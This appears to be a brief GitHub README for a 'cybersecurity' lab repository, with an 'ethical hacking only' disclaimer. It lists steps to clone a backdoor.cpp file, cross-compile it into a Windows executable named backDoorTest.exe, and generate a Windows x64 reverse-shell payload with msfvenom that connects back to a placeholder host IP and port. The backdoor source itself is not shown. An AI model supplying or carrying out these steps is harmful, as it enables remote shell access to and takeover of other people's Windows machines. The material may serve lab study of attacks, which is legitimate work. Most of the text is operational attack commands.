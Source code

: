 # cybersecurity
Cybersecurity Lab Experiences by Fabio Felgueiras

Use this for ethical hacking only 

1- Download

    git clone https://github.com/Blive77/cybersecurity/blob/main/backdoor.cpp
    
2- Compile

    x86_64-w64-mingw32-g++ --static -o backDoorTest.exe backdoor.cpp -fpermissive -lws2_32
    
3- Create the Payload with msfvenom in Kali linux

    msfvenom -p windows/x64/shell_reverse_tcp lhost="Host IP" lport="Host Port" -f raw > load.bin
    
    
